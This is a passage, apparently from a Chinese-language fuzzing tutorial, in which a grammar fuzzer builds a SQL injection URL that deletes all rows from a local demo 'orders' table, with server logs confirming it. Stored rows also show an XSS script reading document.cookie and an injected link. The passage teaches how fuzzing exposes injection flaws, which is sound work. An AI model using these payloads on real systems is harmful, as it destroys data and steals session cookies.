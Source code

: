 ```py
sql_injection_fuzzer = GrammarFuzzer(ORDER_GRAMMAR_WITH_SQL_INJECTION)
order_with_injected_sql = sql_injection_fuzzer.fuzz()
order_with_injected_sql

```

```py
"/order?item=drill&name=Jane',+'x',+'x',+'x')%3b+DELETE+FROM+orders%3b+--&email=j.doe%40example.com&city=New+York&zip=14083"

```

这些是当前订单：

```py
print(db.execute("SELECT * FROM orders").fetchall())

```

```py
[('tshirt', 'Jane Doe', 'doe@example.com', 'Seattle', '98104'), ('lockset', 'Jane Doe', 'j_smith@example.com', 'Seattle', '16631'), ('drill', 'Jane Doe', 'j.doe@example.com', '', '45732'), ('drill', 'Jane Doe', 'j,doe@example.com', 'Seattle', '45732'), ('drill', ' ', '5F @p   a ', 'cdb', '3230'), ('drill', ' m', '@@0', 'd', '9'), ('lockset', '  ', 'c@d', '_', '6'), ('lockset', ' ', 'd@_-', '2  0', '1040'), ('tshirt', 'Kb', 'm@ ', 'zy ', '13'), ('lockset', 'd', 'U @t', ' ', '4'), ('tshirt', '_ 2', '1  @ ', ' ', '30'), ('tshirt', ' ', 'a-@ ', ' W', '2'), ('lockset', 'V', '  @aUeeD', ' ', '01'), ('tshirt', 'oc', '  @ ', 'a', '25'), ('drill', '55', '3>@@5', 'L', '0'), ('tshirt', ' ', 'b t2@ ', 'E9', '54'), ('drill', 'R-', 'e@?', ' ', '5'), ('drill', '\n    Jane Doe<p>\n    <strong><a href="www.lots.of.malware">Click here for cute cat pictures!</a></strong>\n    </p>\n    ', 'j_smith@example.com', 'Seattle', '02805'), ('lockset', 'Jane Doe<script>document.title = document.cookie.substring(0, 10);</script>', 'j.doe@example.com', 'Seattle', '34506')]

```

让我们开始，将带有SQL注入的URL发送到服务器。 从日志中，我们看到“恶意” SQL命令的形成与上面所概述的一样，并且也已执行。

```py
contents = webbrowser(urljoin(httpd_url, order_with_injected_sql))

```

```py
127.0.0.1 - - [21/May/2019 20:16:43] INSERT INTO orders VALUES ('drill', 'Jane', 'x', 'x', 'x'); DELETE FROM orders; --', 'j.doe@example.com', 'New York', '14083')

```

```py
127.0.0.1 - - [21/May/2019 20:16:43] "GET /order?item=drill&name=Jane',+'x',+'x',+'x')%3b+DELETE+FROM+orders%3b+--&email=j.doe%40example.com&city=New+York&zip=14083 HTTP/1.1" 200 -

```

现在所有订单都消失了：

```py
print(db.execute("SELECT * FROM orders").fetchall())

```
